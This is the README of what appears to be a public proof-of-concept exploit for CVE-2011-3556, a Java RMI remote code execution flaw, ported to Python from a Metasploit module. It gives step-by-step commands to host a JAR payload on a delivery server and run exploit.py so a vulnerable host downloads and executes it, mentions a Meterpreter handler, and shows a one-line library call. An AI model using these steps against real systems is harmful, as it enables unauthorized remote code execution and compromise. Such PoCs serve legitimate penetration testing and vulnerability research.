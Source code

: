 # CVE-2011-3556 - Proof of Concept (PoC)

## Disclaimer

This tool is a Python 3 implementation of an existing [proof of concept (PoC)](https://www.exploit-db.com/raw/17535) made by mihi for the [Metasploit Framework](https://www.metasploit.com/).

## Prerequisites

To use the module, simply follow the instructions below:

```sh
# Clone this repository locally.
$ git clone https://github.com/sk4la/cve_2011_3556.git && cd cve_2011_3556/

# Optionally set the `x` bit to be able to execute the script directly.
$ chmod u+x exploit.py

$ ./exploit.py --help && echo "It works!"
```

## Usage

### Command-line

To be remotely loaded by the vulnerable Java RMI server, the payload (a JAR binary) must be served as an HTTP resource. One could quickly serve it using the famous `python3 -h http.server`.

Once the payload is made available for download, simply execute the `exploit.py` script to trigger the vulnerability.

```sh
$ python3 -m http.server --bind <DELIVERY_HOST> <DELIVERY_PORT> &
$ ./exploit.py -h <VULNERABLE_HOST> -u http://<DELIVERY_HOST>:<DELIVERY_PORT>/<PAYLOAD>`
```

> In case the payload is a Meterpreter (Metasploit Framework), do not forget to `use exploit/multi/handler`.

### Library

This module can be used as a library by importing the `cve_2011_3556` module to your current namespace:

```python
from cve_2011_3556 import JavaRMIExploit

JavaRMIExploit("127.0.0.1", "http://127.0.0.1/payload.jar").exploit()
```

It's as simple as that!

## Credits

Special thanks to mihi for the initial implementation of the Metasploit Framework [module](https://www.exploit-db.com/raw/17535).
